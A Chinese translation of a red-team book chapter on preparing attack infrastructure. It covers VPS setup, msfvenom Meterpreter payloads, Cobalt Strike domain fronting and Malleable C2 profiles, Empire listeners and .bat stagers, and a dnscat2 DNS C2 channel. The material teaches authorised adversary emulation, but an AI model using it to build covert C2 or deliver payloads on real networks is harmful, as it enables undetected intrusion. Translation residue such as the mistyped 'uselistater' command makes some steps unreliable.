









# 1 pregame - 设置



作为`红队`，我们并不`真的在乎`攻击的起源。相反，我们想要从`TTPs`中学习。例如，查看`公开来源`，我们`发现`FireEye`关于一次`攻击`的`详细报告`（`https://www2.fireeye.com/rs/848-DID-242/images/rpt-apt29-hammertoss.pdf`）。查看他们的`分析`，我们可以看到`恶意软件的 TTPs`将`Twitter`用作`命令与控制 (C2)`、`加密密钥的图片`、`GitHub`和`隐写术`的一部分。这是`我们将构建`的`类似活动`，以查看您的`公司`是否`能检测此攻击`。

对于`APT 攻击`的`详细细分`是`MITRE`的`对抗性战术、技术和共同知识 (ATT&CK)`矩阵。这是一个`大型的不同 TTPs 集合`，常用于所有`类型`的攻击。



另一个`资源`是`@cyb3rops`的`运行 APT 小组和活动列表`文档。这个`Google 文档`（`http://bit.ly/2GZb8eW`）`细分`不同的`疑似 APT 小组`及其`工具集`。这对于作为`红队人员`的`我们`来说是一份`有用的列表`，用于`模拟不同攻击`。当然，我们可能不会像在`报告中`使用`相同的工具`，但我们可能`构建类似工具`来做`同样的事情`。



## 假设入侵练习

`公司`需要`活在今天的世界`中，他们`从假设`开始，即他们已经`被入侵`。如今，`太多公司`假设由于某些`复选框`或`年度渗透测试`，它们是`安全`的。我们需要`进入一种心态`，即我们总是在`狩猎`、`假设邪恶潜伏`，并`寻找这些异常`。

这正是`红队活动`与`渗透测试`的`巨大差异`。由于`红队活动`专注于`检测/缓解`而不是`漏洞`，我们可以进行一些`独特评估`。一项为`客户/客户`提供`巨大利益`的`评估`称为`假设入侵练习`。在`假设入侵练习`中，`概念`是`总是会有 0-day`。那么，`客户能否识别`并`缓解次要和第三步`？

在这些`场景`中，`红队`与`公司`内的`一组人`合作，以获取`单个定制恶意载荷`并在其`服务器`上`执行`。该`载荷`应尝试`以多种连接方式`，`确保绕过常见 AV`，并`允许从内存执行`额外载荷。我们将在`本书`中的`示例载荷`。一旦`初始载荷`被执行，就是`所有乐趣的开始`！

## 设置您的活动

```
# 1 pregame - the setup
```

这部分内容是我最喜欢的 Red Team 运行环节之一。在首次渗透您自己的系统之前，您需要先界定您的 Red Team 活动范围。在大多数渗透测试中，您会被赋予一个目标，然后不断尝试突破那单一的系统。如果失败了，就转向下一个目标。没有剧本，而且您通常也会专注于那个网络。

在 Red Team 活动中，我们从几个目标出发。这些目标包括但不限于：

* 最终目标是什么？只是为了检测 APT？还是在服务器上获取标志？还是从数据库中获取数据？还是仅仅为了获取 TTD 指标？

* 是否有我们想要模仿的公开活动？

* 您打算使用什么技术？我们讨论过使用 MITRE ATT&CK 矩阵，但每个类别中的确切技术是什么？

    * Red Canary 团队详细说明了这些技术中的每一种。我建议您花时间逐一阅读它们：`http://bit.ly/2H0MTZA`

* 客户希望您使用什么工具？是像 Metasploit、Cobalt Strike、DNS Cat 之类的商用工具，还是定制工具？

最棒的是，被抓获是评估的一部分。有些活动我们被抓获 4 到 5 次，不得不销毁 4 或 5 种不同的环境。这实际上向客户展示了他们的防御系统是否有效（或未有效），基于他们预期的结果。在本书结尾，我将提供如何捕获指标和报告该数据的一些示例。

## 设置您的外部服务器

有许多不同的服务用于构建我们的活动。在当今拥有大量虚拟私人服务器（VPS）的世界里，在互联网上启动您的攻击机不会破坏您的预算。例如，我通常使用 Digital Ocean Droplets（`https://www.digitalocean.com/products/compute`）或 AWS Lightsail 服务器（`https://lightsail.aws.amazon.com`）来配置我的 VPS 服务器。我使用这些服务的原因是因为它们通常成本很低（有时免费），支持 Ubuntu 服务器，支持各种地区的服务器，最重要的是，非常容易设置。只需几分钟，您就可以设置多个服务器并运行 Metasploit 和 Empire 服务。

我将重点关注 AWS Lightsail 服务器，因为设置简单、可自动化服务以及通常流向 AWS 的流量量。在您完全创建喜欢的镜像后，可以快速克隆该镜像到多个服务器，这使构建现成的命令和控制盒变得非常容易。

再次，您应确保遵守 VPS 提供者的服务条款（即 `https://aws.amazon.com/service-terms/`），以免陷入任何麻烦。

* `https://lightsail.aws.amazon.com/`

    * 创建实例

        * 我强烈建议至少 1 GB 的 RAM

        * 存储空间通常不是问题

    * Linux/Unix

    * 仅限 OS -> Ubuntu

    * 下载证书

    * `chmod 600 cert`

    * `ssh -i cert ubuntu@[ip]`

登录后，您需要尽可能高效且可重复地安装所有工具。这是我建议您开发自己的脚本来设置诸如 IPTables 规则、SSL 证书、工具、脚本等东西的地方。快速构建服务器的方法是集成 TrustedSec 的 PenTesters Framework (PTF)。这组脚本（`https://github.com/trustedsec/ptf`）为您做了大量繁重的工作并为其他所有内容创建了框架。让我们快速走一遍安装所有我们的利用、情报收集、利用后、PowerShell 和漏洞分析工具的示例。

```
sudo su -
apt-get update
apt-get install python
git clone https://github.com/trustedsec/ptf /opt/ptf
cd /opt/ptf && ./ptf
use modules/exploitation/install_update_all
use modules/intelligence-gathering/install_update_all
use modules/post-exploitation/install_update_all
use modules/powershell/install_update_all
use modules/vulnerability-analysis/install_update_all
cd /pentest
```

下图显示了所有可用的模块，我们安装了一些。



所有可用模块的图片

如果我们看一下攻击者的 VPS，我们可以看到攻击盒子上安装的所有工具。如果我们想要启动 Metasploit，我们可以直接输入：`msfconsole`。



`/pentest`下安装的所有工具

我仍然建议设置强大的 IPTables 规则。既然这将是您的攻击服务器，您将希望限制 SSH 认证可以来自哪里，Empire/Meterpreter/Cobalt Strike 载荷可以来自哪里，以及您建立的任何钓鱼页面。

如果您记得 2016 年底，有人在 Cobalt Strike Team Server 上发现了一个未认证的远程代码执行 (RCE)（`https://blog.cobaltstrike.com/2016/09/28/cobalt-strike-rce-active-exploitation-reported/`）。您肯定不希望攻击服务器被您客戶的数据所 compromise。

我也见过一些 Red Team 在 AWS 中的 Docker 中运行 Kali Linux（或至少 Metasploit）（`http://bit.ly/2qz2vN9`）。从我的角度来看，创建系统的错误方式并不存在。您想要的是一种高效且可重复的部署多台机器流程。使用 Lightsail 的最佳之处在于，一旦您将机器配置为您的偏好，您可以对该机器进行快照并启动多个该镜像的全新实例。

如果您希望将环境提升至下一个级别，请查看 Coalfire-Research 团队。他们构建了自定义模块来完成所有繁重工作和自动化。Red Baron 是一套模块和自定义/第三方 Terraform 提供商，它尝试为 Red Team 自动化创建弹性、一次性、安全和敏捷的基础设施（`https://github.com/Coalfire-Research/Red-Baron`）。无论是建立钓鱼服务器、Cobalt Strike 基础设施还是创建 DNS C2 服务器，您都可以使用 Terraform 完成所有操作。

查看`https://github.com/Coalfire-Research/Red-Baron`并查看所有不同的模块以快速构建您自己的基础设施。

## 贸易工具

Red Team 可能会使用无数工具，但我们谈谈一些核心资源。请记住，作为 Red Teamer，目的不是破坏环境（这最有趣），而是复制现实世界的攻击以查看客户是否受到保护且能在极短时间内检测到攻击。在前几章中，我们确定了如何复制攻击者的配置文件和工具集，因此让我们回顾一些最常见的 Red Team 工具。

### Metasploit 框架

本书不会像前几本书那样深入 Metasploit。尽管 Metasploit 框架最初于 2003 年开发，它仍然是黄金标准工具。这是由于原始创建者 H.D. Moore 和非常活跃的社区的支持。这个社区驱动的框架（`https://github.com/rapid7/metasploit-framework/commits/master`）似乎每天更新，拥有所有最新的公开利用、利用后模块、辅助模块等。

对于 Red Team 活动，我们可能会使用 Metasploit 来利用内部系统，使用 MS17-010 永恒蓝漏洞（`http://bit.ly/2H2PTsI`）获取第一个 shell，或者我们可能会使用 Metasploit 为我们的社会工程攻击生成 Meterpreter 载荷。

在后面的章节中，我们将向您展示如何重新编译您的 Metasploit 载荷和流量以绕过防病毒和网络传感器。

### 混淆 Meterpreter 载荷

-   如果我们要执行某些社会工程学攻击，我们可能会希望使用一个**Word**或**Excel**文档作为投递载体。然而，潜在的问题是，我们无法包含一个**Meterpreter**有效负载二进制文件，或者无法让它从互联网下载一个，因为**AV**可能会对其触发警报。此外，一个简单的解决方案是使用**PowerShell**进行混淆：

```
msfvenom --payload windows/x64/meterpreter_reverse_http --format psh --out meterpreter-64.ps1 LHOST=127.0.0.1
```

我们还可以进一步深入，使用类似**Unicorn**（`https://github.com/trustedsec/unicorn`）这样的工具来生成更多混淆的**PowerShell** **Meterpreter**有效负载，我们将在阅读本书的过程中对此进行更详细的介绍。

此外，使用受信任机构的签名**SSL/TLS**证书有助于我们绕过某些网络**IDS**工具：`https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode`.

最后，在本书稍后部分，我们将介绍如何从头重新编译**Metasploit**/**Meterpreter**，以逃避主机和网络层面的检测工具。

### Cobalt Strike

**Cobalt Strike**无疑是我最喜欢的**Red Team**模拟工具之一。什么是**Cobalt Strike**？它是一种用于后渗透、横向移动、在网络中隐藏以及数据窃取的工具。**Cobalt Strike**实际上并没有漏洞利用代码，也不用于通过最新的 0-day 漏洞进行系统破坏。真正体现其强大功能和特性的是当你已经在服务器上拥有了代码执行权限，或者作为钓鱼活动有效负载的一部分使用时。一旦你能够执行一个**Cobalt Strike**有效负载，它就会创建一个与命令与控制服务器的**Beacon**连接。

新的**Cobalt Strike**许可证费用为每用户 3,500 美元（一年期），所以它不是便宜好用的工具。有免费的有限试用版本可用。

#### Cobalt Strike Infrastructure

正如前面提到的，在基础设施方面，我们希望建立一个可重用且高度灵活的环境。**Cobalt Strike**支持重定向器，这样如果您的**C2**域名被焚毁了，您不必启动整个新环境，只需要一个新域名。您可以在这里找到更多关于使用**socat**配置这些重定向器的信息：`http://bit.ly/2qxCbCZ` 和 `http://bit.ly/2IUc4Oe`.

为了将重定向器提升到一个新水平，我们利用**Domain Fronting**。`Domain Fronting`是**Cobalt Strike**的一种集合技术，用于利用他人的域名和基础设施作为您的控制器的重定向器（`http://bit.ly/2GYw55A`）。这可以通过利用流行的**Content Delivery Networks** (CDNs) 来实现，例如 **Amazon's CloudFront**或其他**Google**主机来隐藏流量来源。过去这曾被不同的对手利用过（`http://bit.ly/2HoCRFi`).

使用这些高信誉域名，任何流量，无论**HTTP**或**HTTPS**，看起来像是在与这些域名通信，而不是我们恶意的**Command and Control**服务器。这一切如何运作？用一个非常高级别的示例，所有流量将发送到 **CloudFront** 的主要全限定域名（FQDNs）之一，例如 `a0.awsstatic.com`，这是**CloudFront**的主域名。修改请求中的**Host**标头会将所有流量重定向到我们的**CloudFront**分发，最终将流量转发到我们的**Cobalt Strike** **C2**服务器（`http://bit.ly/2GYw55A`）。

通过更改**HTTP** **Host**标头，CDN 会毫不客气地路由我们到正确的服务器。**Red Teams**一直使用这种技术来通过使用高信誉重定向器隐藏**C2**流量。

另外关于支持`Domain Fronting`的其他两个产品的资源：

*   **CyberArk**还撰写了一篇极好的博客，讲述如何使用**Google** **App**产品看起来像是您的流量流经 `www.google.com`、`mail.google.com` 或 `docs.google.com`：`http://bit.ly/2Hn7RW4`.

*   **Vincent Yiu**撰写了一篇文章，讲述如何使用**Alibaba** CDN 支持他的域名前端攻击：`http://bit.ly/2HjM3eH`.

*   **Cobalt Strike**并非唯一支持**Domain Fronting**的工具，这也可以通过**Meterpreter**实现 `https://bitrot.sh/post/30-11-2017-domain-fronting-with-meterpreter/`.

注意：在本书出版时，**AWS**（甚至**Google**）已经开始实施针对 `domain fronting` 的保护措施（`https://amzn.to/2I6lSry`）。这并不能阻止此类攻击，但需要不同的第三方资源来滥用。

虽然不属于基础设施部分，但了解您的信标在内网环境中的工作原理很重要。从运营安全的角度来看，我们不想建立一个容易被摧毁的活动。作为一名红队成员，我们必须假设我们的某些代理将被蓝队发现。如果我们所有的宿主都在与一两个**C2**端点通信，很容易摧毁我们的整个基础设施。幸运的是，**Cobalt Strike**支持主机之间的**SMB**信标进行**C2**通信。这允许您让一台受感染的机器与互联网通信，而网络上的所有其他机器都可以通过初始受感染的主机通过**SMB**（`https://www.cobaltstrike.com/help-smb-beacon`）进行通信。这样，如果检测到某个次要系统并进行了取证分析，他们可能无法识别与攻击相关的**C2**域名。

**Cobalt Strike**的一个巧妙功能极大地帮助了红队，即其能够操纵您的信标如何通信。使用`Malleable C2 Profiles`，您可以使受感染系统的所有流量看起来像正常流量。我们正进入越来越多的环境，其中正在发生第 7 层应用过滤。在第 7 层，他们寻找异常流量，通常这些是在 Web 通信上发生的。如果我们能让我们的**C2**通信看起来像正常的 Web 流量怎么办？这就是`Malleable C2 Profiles`发挥作用的地方。看看这个示例：`https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/normal/amazon.profile`. 一些即时注释：

*   我们看到这些将是带有 `URI`路径的`HTTP`请求：


```
set uri "/s/ref=nb_sb_noss_1/167-3294888-0262949/field-keywords=books";
```

*   `Host`标头设置为 `Amazon`：

```
header "Host" "www.amazon.com";
```

*   甚至还有一些来自`C2`服务器的自定义`Server`标头

```
header "x-amz-id-1" "THKUYEZKCKPGY5T42PZT";
header "x-amz-id-2" "a21yZ2xrNDNtdGRsa2ts2bGV3YW85amZuZW9ydG5rZmRuZ2tmZGl4aHRvNDVpbGo=";
```

如今这些已被用于许多不同的活动，众多安全设备已经为所有常见的`Malleable Profiles`创建了签名（https://github.com/rsmudge/Malleable-C2-Profiles）。我们为了绕过这个问题所做的，是确保所有静态字符串被修改，确保所有`User-Agent`信息被更改，使用真实证书配置`SSL`（不要使用默认的`Cobalt Strike` `SSL`证书），使用抖动，并更改代理的信标时间。最后需要注意的是，要确保通信是通过`POST`（`http-post`）命令进行的，否则可能会导致在使用自定义配置文件时产生很多问题。如果您的配置文件通过`http-get`进行通信，它仍然可以工作，但上传大文件将非常慢。记住`GET`通常限制在约 2048 个字符左右。

`SpectorOps`的团队还使用：https://github.com/bluscreenofjeff/Malleable-C2-Randomizer.创建了随机可塑性 C2 配置文件。

#### Cobalt Strike Aggressor Scripts

`Cobalt Strike`有众多人员为该项目贡献代码。`Aggressor Script`是一种专为红队作业和 adversary（对手）模拟而设计的脚本语言，其灵感来源于可编写 IRC 客户端和机器人 (bots)。它具有双重目的：(1) 您可以创建长时间运行的机器人来模拟虚拟的红队成员与您并肩进行黑客攻击；(2) 您还可以利用它扩展和修改`Cobalt Strike`客户端以满足您的特定需求 [https://www.cobaltstrike.com/aggressor-script/index.html]。例如，`HarleyQu1nn`整理了一份优秀的不同 aggressor script（掠夺者脚本）列表用于后续渗透攻击：http://bit.ly/2qxIwPE。

## PowerShell Empire

`Empire`是一个后渗透利用框架，包含纯 PowerShell 2.0 Windows agent（组件），以及纯 Python 2.6/2.7 Linux/OS X agent（组件）。它是之前`PowerShell Empire`和`Python EmPyre`项目的合并版本。该框架提供了加密通信能力和灵活的架构。在 PowerShell 方面，`Empire`实现了无需 powershell.exe 即可运行 PowerShell agents 的能力，能够快速部署从键盘记录器到 Mimikatz 等各种后渗透利用模块，以及适应网络检测的通信方式，所有这些功能都封装在一个以用户体验为核心的框架中 [https://github.com/EmpireProject/Empire]。

对于红队人员来说，PowerShell 是我们最好的朋友之一。在初始负载之后，所有后续攻击均存储在内存中。**最佳**之处在于`Empire`处于积极维护和更新状态，因此最新的后渗透利用模块都可用于攻击。此外，它还提供了针对 Linux 和 OS X 的 C2（命令与控制）连接能力`**。这样您仍然可以在 Mac 上创建 Office Macro 宏，执行后即可在内 Empire 中获得全新的 agent。

我们将在全书中更多细节介绍`Empire`的效果如何。就设置`Empire`而言，确保对其进行安全配置至关重要：

*   将`CertPath`设置为真实的受信任 SSL 证书路径。

*   更改默认配置文件 (DefaultProfile)的端点。许多第 7 层防火墙会寻找确切的静态端点。 

*   更改用于通信的用户代理 (User Agent)。

就像我们之前书籍中使用的 Metasploit rc 文件（用于自动化）一样，Empire 现在支持自动运行脚本以提升效率和效果。

### 运行`Empire`

*   **启动 Empire**

    *   cd /opt/Empire && ./setup/reset.sh

*   **退出**

    *   exit

*   **配置证书 (最佳实践是使用真实受信任的证书)**

    *   ./setup/cert.sh

*   **启动 Empire**

    *   ./empire

*   **启动监听器**

    *   listeners

### 选择您的监听器（我们将在实验中选用 http）

*   uselistener [按两次 Tab 键查看所有监听器类型]

*   `uselistater` http

*   查看听筒器的所有配置信息

    *   info

*   **设置以下内容** (例如：set KillDate 12/12/2020)：

    *   KillDate - 您的行动结束日期，以便 agent 自动清理

    *   DefaultProfile - 请务必更改所有的端点 (`e.g.` /admin/get.php,/news.php)。您可以随意设置这些路径，例如 `/seriously/notmalware.php`。 

    *   `defaultprofile`(注意：原文可能是 typo/default profile 的笔误) - 请确保同时也更改您的 User Agent (用户代理)。我喜欢查看最常用的一组 User Agents 并从中选择一个作为自己的`。

    *   Host - 改使用 HTTPS 并在端口 443 上运行

*   CertPath - 添加您 SSL 证书的路径  

*   UserAgent - 将其改为常用的 User Agent 

*   **Port** (端口) - 设置为 443

*   ServerVersion - 将此更改为另一个常见的服务器请求标头

当您完成所有设置后，启动您的监听器：

```
execute
```



### 配置负载 (Payload)

负载是实际运行在受害者系统上的恶意软件。这些负载可以在 Windows、Linux 和`OSX` (`macOS`)上运行。然而 Empire 最著名的却是其 PowerShell Windows 负载：

*   进入主菜单

    *   main

*   创建可用于 OSX, Windows, Linux 的加载器 (stager)。我们将创建一个简单的 batfile 文件作为示例，但您也可以为 Office 文件创建宏或为 Rubber Ducky（橡胶鸭）攻击机创建负载。 

    *   usestager [按两次 Tab 键查看所有不同类型]

    *   `usestager windows/launcher_bat`

*   查看所有设置

    *   info

*   配置所有设置：

    *   set Listener http  

    *   **配置 UserAgent**

### 创建负载 (Create Payload)

```
generate
```

在另一个终端窗口中查看您的负载：

```
cat /tmp/launcher.bat
```



如上所示，创建的 payload 被严重混淆。现在您可以将该 .bat 文件投放到任何 Windows 系统上。**当然**，您可能会创建 Office Macro 宏或 Rubber Ducky 橡胶鸭 payload，但这只是众多示例之一`。

如果您的 Kali 镜像中尚未安装 PowerShell (`Kali Linux`)，最好的方法是进行手动安装。在`Kali`上安装 PowerShell：

```
apt-get install libunwind8 
wget http://security.debian.org/debian-security/pool/updates/main/o/openssl/libssl1.0.0_1.0.1t-1+deb7u3_amd64.deb 
dpkg -i libssl1.0.0_1.0.1t-1+deb7u3_amd64.deb
wget http://security.ubuntu.com/ubuntu/pool/main/i/icu/libicu55_55.1-7ubuntu0.3_amd64.deb 
dpkg -i libicu55_55.1-7ubuntu0.3_amd64.deb
wget https://github.com/PowerShell/PowerShell/releases/download/v6.0.2/powershell_6.0.2-1.ubuntu.16.04_amd64.deb 
dpkg -i powershell_6.0.2-1.ubuntu.16.04_amd64.deb
```

## dnscat2

`dnscat2`是一款专为在 DNS 协议上创建加密的命令与控制 (C2)通道而设计的工具，这是几乎可以从任何网络中构建隧道的一种有效手段 [https://github.com/iagox86/dnscat2]。通过 DNS 进行 C2 通信和数据外传提供了一种极好的机制来隐藏您的流量、躲避网络传感器并绕过网络限制。在许多限制性或生产环境` (`prod envs`)`,我们会遇到完全不允许出站流量，或者对流量实施严重限制/监控的网络类型。**为了**绕开这些保护措施，我们可以使用像`dnscat2`这样的工具。我们之所以重点关注它是因为它不需要 root 权限且允许 shell 访问和数据外传。

在许多安全环境` (`secure zones`)`,直接的出站 UDP 或 TCP 通信受限。为什么不利用基础设施中已经内置的服务呢？许多此类保护网络包含用于解析内部主机的 DNS 服务器，同时也允许对外部资源进行解析。**通过**为我们要属的恶意域名设置权威服务器，我们可以利用这些 DNS 解析功能通过我们的恶意软件执行命令与控制 (C2)。



在我们的场景中` (`test case`)`,我们将将我们的攻击者域命名为 "`loca1host.com`"。这是 `localhost` ("本地主机")的变体，我们希望借此更多地隐藏我们的流量。**切记**将`"loca1host.com"`替换为您拥有的域名`. 稍后我们将配置 loca1host.com 的 DNS 信息使其成为权威 DNS 服务器.`在此示例中，我们将使用 GoDaddy 的 DNS 配置工具创建 DNS 记录`但您也可以使用任何 DNS 服务。

### 使用 **GoDaddy**设置权威 `DNS`服务器 

*   首先，确保已建立一台 VPS（虚拟专用服器）作为您的 C2 攻击服务器并获取其 IP 地址

*  在购买域名后登录到您 GoDaddy（或类似服务商）账户中 

*选择您的域，点击"管理"(manage)，然后选中"高级 DNS"(Advanced DNS) 

* 下一步` (`step 4`)`,在 **DNS Management**(DNS 管理)中设置主机名以指向您的服务器：

    *   ns1 - 输入您 VPS 服务器的 IP 地址。  

    *   ns2 - 同样，在此处填写您在步骤中输入的 VPS 服务器 IP 地址.` 

### 将 Nameservers（名称服务器）自定义为专属

*添加`ns1.loca1host.com`   

*添加 `ns2.loca1host.com   



如您看到的上图所示，现在我们的 nameservers 已指向 ns1.localhost.com 和 ns2.localhost.com（保留来源上下文中"localho st.com"的拼写错误）这两个均指向我们攻击者使用的 VPS 服务器`。如果您尝试解析 loca1host.com 的任何子域（例如 `vpn.loca1host.com`)，它将使用我们的 VPS 服务器来执行这些解析操作`. 幸运的是对我们来说**dnscat2**(Dnscat.client)监听在 UDP 端口 53 上并为我们完成了大部分繁重工作`。

## 设置 Attacker Server

接下来，我们需要完整配置作为名称服务器的攻击者服务器（attacker server）。

### 设置 dnscat2 Server

*   `sudo su -`

*   `apt-get update`

*   `apt-get install ruby-dev`

*   `git clone https://github.com/iagox86/dnscat2.git`

*   `cd dnscat2/server/`

*   `apt-get install gcc make`

*   `gem install bundler`

*   `bundle install`

*   测试以确保其正常运行：`ruby ./dnscat2.rb`

### 注意

**快速提示：** 如果您使用 Amazon Lightsail，请确保允许 UDP 端口 53。

## 编译客户端

对于客户端代码，我们需要将其编译为 Linux payload 的二进制文件。

## 编译客户端

*   `git clone https://github.com/iagox86/dnscat2.git /opt/dnscat2/client`

*   `cd /opt/dnscat2/client/`

*   `make`

*   We should now have a dnscat binary created!

虽然 `Nishang` 确实是一组令人惊叹的 PowerShell 脚本集合，但其中也包含了一些用于轻量级命令与控制（Command and Control）的脚本。

## 结论

现在，你已经准备好配置好所有工具和服务器投入实战了。做好应对各种场景的准备将帮助你绕过网络检测工具、被封锁的协议、基于主机的安全工具以及其他障碍。

针对本书中的实验环境，我基于 Kali Linux 创建了一个包含所有工具的完整虚拟机。该 VMware ***[Virtual](http://thehackerplaybook.com/get.php?type=THP-vm)*** 可在以下地址获取：`http://thehackerplaybook.com/get.php?type=THP-vm`。在 THP 归档文件中，有一个名为 `List_of_Tools.txt` 的文本文件，列出了所有已添加的工具。默认的用户名/密码为标准的 root/toor。
